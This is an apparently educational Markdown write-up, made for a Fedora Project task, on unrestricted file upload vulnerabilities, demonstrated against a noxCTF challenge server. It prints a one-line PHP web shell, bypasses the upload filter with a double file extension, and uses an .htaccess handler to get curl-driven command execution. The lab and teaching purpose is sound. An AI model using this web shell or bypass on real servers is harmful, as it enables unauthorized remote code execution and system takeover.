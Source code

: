 # Unrestricted File Upload Vulnerability

This Article is written for a task for Fedora Project.

The name itself explains what we're gonna talk about. 
```
"Unrestricted"   -- Not limited

"File Upload"    -- Upload a file to a web page

"Vulnerability"  -- Possibility of being attacked or harmed.
```
File Upload Vulnerabilities are the third most common vulnerability type only after XSS (Cross Site Scripting) and SQLi (SQL Injection).

This is done by uploading a file which contains malicious code which may result in various dangers.

### What are the dangers?
```
Entire System takeover
Database Overloading
May cause back-end systems to malfunction
Critical files getting overwritten
Could trigger a DoS 
```

### How does this work and Where does the problem lie?

I'd rather explain with an example than with words.

I've asked the coordinator of noxCTF to make the connection alive for a while to the given challenge. (not sure how long)

Link for the challenge: http://chal.noxale.com:8079

First and Foremost, always create a php shell file.
```php
<?php
system($_GET['cmd']);
?>
```
I'll be saving this as `fedora.txt`

After I've tried to upload it, it gives us the following.
```HTML
File: fedora.txt
There is no .png/.jpg/.gif in that file name
```
The website expects a file name which contains `.png/.jpg/.gif` in the uploaded file. I'll change the file name to `fedora.png.txt`.

After uploading it, we get the following:
```HTML
File: fedora.png.txt
Image uploaded to: <a href='uploads/fedora.png.txt'>Here</a>
```

Let's now check the given URL.

```bash
$ curl 'http://chal.noxale.com:8079/uploads/fedora.png.txt'
<?php
system($_GET['cmd']);
?>
```
We have uploaded it successfully. Let’s try to investigate the /uploads/ directory.

```
Index of /uploads
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[DIR]	Don't open/	2019-12-08 14:41	-	 
[IMG]	shell.png.phtml	2019-12-08 14:57	30	 
Apache/2.4.29 (Ubuntu) Server at chal.noxale.com Port 8079
```
We have a directory called “Don’t open”. Let’s see what’s inside.

```
Index of /uploads/Don't open
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[   ]	htaccess	2019-12-08 14:48	56	 
Apache/2.4.29 (Ubuntu) Server at chal.noxale.com Port 8079
```
It contains a htaccess file. Let’s look at the contents of it.

```
$ curl "http://chal.noxale.com:8079/uploads/Don't%20open/htaccess"
Options +Indexes
AddType application/x-httpd-php .cyb3r
```
It tells us that the server runs files with extension .cyb3r using PHP.

Let’s rename our file to rce.png.cyb3r and upload it again (I've named it rce as it relates to remote code execution).

```
File: rce.png.cyb3r
Image uploaded to: <a href='uploads/rce.png.cyb3r'>Here</a>
```
### Testing:
```bash
$ curl "http://chal.noxale.com:8079/uploads/rce.png.cyb3r?cmd=whoami"
www-data
$ curl "http://chal.noxale.com:8079/uploads/rce.png.cyb3r?cmd=pwd"
/var/www/html/uploads
```
### Works!
Now we search for the flag!
```bash
$ curl "http://chal.noxale.com:8079/uploads/rce.png.cyb3r?cmd=ls"
1.jpg
1.jpg%00php
1.php%00jpg
1.php.jpg
1jpg
2.php%00jpg
2.php.jpg
2.php;.jpg
THE-FLAG-IS-HERE
Don't open
dummy.png.txt
exec.png.cyb3r
gif.phpjpg
gifjpg
rce.png.cyb3r
shell.png.cyb3r
shell.png.phtml
uploadTest.txt
$ curl "http://chal.noxale.com:8079/uploads/rce.png.cyb3r?cmd=file%20THE-FLAG-IS-HERE"
THE-FLAG-IS-HERE: directory
$ curl "http://chal.noxale.com:8079/uploads/rce.png.cyb3r?cmd=ls%20THE-FLAG-IS-HERE"
noxCTF{GCI-Fedora-rocks!}
```
I've chosen an example without the working of burpsuite (not a lot of people know how to use one), and this challenge is the only one I could think of.

**Remember** that this is only one type of vulnerability of file uploads. Real life practices require a lot of digging into stuff.

**For example**, one may start at File Upload Vuln, and counter with either binary exploitation, SSH keys, Network forensics or a combination will all of them.

You've seen it. Got it? And I hear a yes :)
